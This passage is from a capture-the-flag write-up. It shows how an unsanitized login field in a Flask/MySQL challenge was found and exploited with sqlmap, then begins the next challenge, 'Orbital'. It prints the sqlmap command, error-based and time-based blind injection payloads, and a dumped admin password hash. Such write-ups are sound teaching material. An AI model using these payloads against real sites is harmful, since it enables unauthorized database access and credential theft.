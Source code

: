 The website is a `Flask` application running on `MySQL` so I thought of SQL Injection cand be done. Here I found interesting thing that in `config.py` file they have provided the database information.

![](https://i.imgur.com/07ijody.png)


Also in the `database.py` also they have given the hint that the input is not sanitized. 
The logic of the database is that we need the `token` of the password to login. So if we can find the token we can login.

![](https://i.imgur.com/hO6kBee.png)


Then I saved the login request and gave it to `sqlmap` though which I was able to extract the details.


    sqlmap -r ./req --dbms=mysql -D drobots -T users --dump


    ---
    Parameter: JSON username ((custom) POST)
        Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: {"username":"a"="a" AND (SELECT 5866 FROM(SELECT COUNT(*),CONCAT(0x7162717071,(SELECT (ELT(5866=5866,1))),0x716a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND "a"="a","password":"a"}
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"username":"a"="a" AND (SELECT 4022 FROM (SELECT(SLEEP(5)))iMan) AND "a"="a","password":"a"}
    ---


    +----+----------------------------------+----------+
    | id | password                         | username |
    +----+----------------------------------+----------+
    | 1  | 67772d6e54bc393a6f67e16bac3f83da | admin    |
    +----+----------------------------------+----------+

Once logged in we get the flag.

![](https://i.imgur.com/4S5t7zw.png)

----------
## Orbital
> Solved by Legend

Challenge description


> In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

